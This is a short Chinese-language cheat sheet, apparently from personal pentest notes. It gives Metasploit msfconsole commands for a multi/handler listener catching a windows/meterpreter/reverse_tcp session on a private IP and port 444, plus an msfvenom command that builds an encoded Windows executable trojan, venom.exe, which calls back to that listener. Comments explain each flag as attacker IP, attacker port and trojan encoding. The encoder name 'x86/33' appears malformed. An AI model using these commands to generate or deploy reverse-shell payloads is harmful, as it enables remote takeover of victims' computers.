 # msfconsole

```sh
use exploit/multi/handler

set payload windows/meterpreter/reverse_tcp

set lhost 172.31.0.44

set lport 444

exploit

# 以上所有的命令都是在 msfconfsole 里执行的
# 等待监听
```
















# msfvenom

```sh
msfvenom -p windows/meterpreter/reverse_tcp lhost=172.31.0.44 lport=444  -e x86/33 -f exe -o venom.exe
```

- **p:**指定生成的类型
- **lhost:**攻击者的ip地址
- **lport:**攻击者的端口
- **-e:**木马的编码方式
- **-f：**生成的文件格式
- **-o:**输出文件